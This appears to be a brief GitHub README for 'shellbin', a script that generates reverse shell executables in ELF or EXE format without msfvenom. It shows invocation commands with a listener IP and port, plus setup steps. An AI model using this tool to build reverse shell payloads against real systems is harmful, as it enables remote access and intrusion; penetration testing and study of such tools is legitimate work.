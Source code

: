 # shellbin
Auto Reverse Shell Binary Generator

Auto generate reverse shell binary

if you can't use msfvenom, maybe this script is so usefuly.

they can generate as elf or exe format with out msfvenom

Usage:

     shellbin <lhost> <lport> <format>

Example:

     ./shellbin 192.168.0.4 1337 exe
     ./shellbin 192.168.0.4 1337 elf

SetUp:
  
     if root user      :  python3 setup.py
     if not a root user:  sudo python3 setup.py


Auto generate as "shell.c" "shell.cpp" and "shell.elf" "shell.exe"
So becareful to current files name on working directory 

